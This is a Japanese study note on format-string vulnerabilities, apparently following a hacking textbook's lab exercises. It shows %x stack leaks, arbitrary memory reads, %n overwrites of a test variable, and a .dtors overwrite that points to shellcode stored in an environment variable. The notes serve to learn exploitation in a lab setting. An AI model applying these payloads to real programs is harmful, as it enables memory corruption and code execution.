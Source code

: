# フォーマットパラメータ

| param | 型      | 出力                       |
| ----- | ------- | -------------------------- |
| `%d`  | value   | 10進数                     |
| `%u`  | value   | 符号なし10進数             |
| `%x`  | value   | 16進数                     |
| `%s`  | pointer | 文字列                     |
| `%n`  | pointer | ここまでに出力したバイト数 |

```c
printf("A is %d and is at %08x.  B is %x.\n", A, &A, B);
```

の場合は，以下のようになる(`↑`に伸びる)

![stack](./img/3_stack.png)

では，引数が一個減った際の出力は一体なんなのか．

macの場合

```sh
./fmt_uncommon2
# The number of bytes written up to this point X is being stored in count_one, and the number of bytes up to here X is being stored in count_two.
# count_one: 46
# count_two: 113
# A is 5 and is at ea35c3b8.  B is 16e00000.
```

例では，`b7fd6ff4`であった．

## printf(string)

このファイルに対して，`./fmt_vuln %x`とすると，スタック上の4バイトの値が出力される．

`./fmt_vuln $(perl -e 'print "%08x"x40')`

```sh
./fmt_vuln $(perl -e 'print "%08x."x40')
ユーザによって入力されたテキストを出力する正しい方法：
# %08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x
# ユーザによって入力されたテキストを出力する誤った方法：
# 02297260965fd8c09652a50496602500965bae8006b605289662f9f0783830257838302578383025783830257838302578383025783830257838302578383025783830257838302578383025783830257838302578383025783830257838302578383025783830257838302506b6020000000007966074f0000000079662f9f096612754000000009661357806b6017096459350000000000000000006b601f0
# [*] test_val @ 0x00404050 = -72 0xffffffb8
```

## 任意のアドレスから読み込み

```sh
 ./getenvaddr PATH ./fmt_vuln
# PATH will be at 0x7fffc1845f92
./fmt_vuln AAAA%08x.%08x.%08x.%08x
# ユーザによって入力されたテキストを出力する正しい方法：
# AAAA%08x.%08x.%08x.%08x
# ユーザによって入力されたテキストを出力する誤った方法：
# AAAA01897260.d70a18c0.d6fce504.d70a6500
# [*] test_val @ 0x00404050 = -72 0xffffffb8
./fmt_vuln AAAA%08x.%08x.%08x.%s
# ユーザによって入力されたテキストを出力する正しい方法：
# AAAA%08x.%08x.%08x.%s
# ユーザによって入力されたテキストを出力する誤った方法：
# AAAA01721260.2112e8c0.2105b504.
# [*] test_val @ 0x00404050 = -72 0xffffffb8
```

```sh
./fmt_vuln $(printf "\x92\x7f\x74\x12\xfe\x7f\x00\x00")%08x.%08x.%08x.%s
```

## 値の上書き

```sh
./fmt_vuln aiueo
# ユーザによって入力されたテキストを出力する正しい方法：
# aiueo
# ユーザによって入力されたテキストを出力する誤った方法：
# aiueo
# [*] test_val @ 0x00404050 = -72 0xffffffb8
```

`00404050`ここにあるため，ここからペイロードを作成．`\x50\x40\x40\x00`

```sh
./fmt_vuln $(printf "\x50\x40\x40\x00")%x%x%x%n
# bash: warning: command substitution: ignored null byte in input
# ユーザによって入力されたテキストを出力する正しい方法：
# P@@%x%x%x%n
# ユーザによって入力されたテキストを出力する誤った方法：
# P@@1ea2260e7ad48c0e7a01504
# [*] test_val @ 0x00404050 = -72 0xffffffb8
```

![mem](./img/mem.png)

## ダイレクトパラメータアクセス

>「ダイレクトパラメータアクセス」という $ 記号を使用する機能を使えば、 引数に直接アクセスすることが可能になる

```c
printf("7番目:%7$d, 4番目:%4$05d\n", 10, 20, 30, 40, 50, 60, 70, 80);
// 7番目:70, 4番目:00040
```

## ショートライトを使用する

2Byte書き込むもの．（printfにおいては，`h`修飾子で使える．）

## .dtors を狙った攻撃

Cにおけるデストラクタ．

`dtors_sample.c`にある．これ知らなかった

```sh
nm ./dtors_sample
# 0000000000403e20 d _DYNAMIC
# 0000000000404000 d _GLOBAL_OFFSET_TABLE_
# 0000000000402000 R _IO_stdin_used
# 0000000000402214 r __FRAME_END__
# 00000000004020b0 r __GNU_EH_FRAME_HDR
# 0000000000404038 D __TMC_END__
# 0000000000404038 B __bss_start
# 0000000000404028 D __data_start
# 0000000000401100 t __do_global_dtors_aux
# 0000000000403e10 t __do_global_dtors_aux_fini_array_entry
# 0000000000404030 D __dso_handle
# 0000000000403e08 t __frame_dummy_init_array_entry
#                  w __gmon_start__
# 0000000000403e10 t __init_array_end
# 0000000000403e08 t __init_array_start
# 00000000004011d0 T __libc_csu_fini
# 0000000000401170 T __libc_csu_init
#                  U __libc_start_main@@GLIBC_2.2.5
# 0000000000401080 T _dl_relocate_static_pie
# 0000000000404038 D _edata
# 0000000000404040 B _end
# 00000000004011d4 T _fini
# 0000000000401000 T _init
# 0000000000401050 T _start
# 0000000000401158 t cleanup
# 0000000000404038 b completed.7325
# 0000000000404028 W data_start
# 0000000000401090 t deregister_tm_clones
#                  U exit@@GLIBC_2.2.5
# 0000000000401130 t frame_dummy
# 0000000000401132 T main
#                  U puts@@GLIBC_2.2.5
# 00000000004010c0 t register_tm_clones
```

なかったように見えたが，この領域が書き込み可能らしい．

しかも毎回ここは呼ばれるため，

```sh
reader@hacking:~/booksrc $ export SHELLCODE=$(cat shellcode.bin)
reader@hacking:~/booksrc $ ./getenvaddr SHELLCODE ./fmt_vuln
# SHELLCODE : 0xbffff9ec
```

このように環境変数を埋め込んだ上でこのセクションに出力されたアドレスを書き込むと，シェルが起動できてしまう．

## notesearch のさらなる脆弱性

## グローバルオフセットテーブル(GOT)の上書き
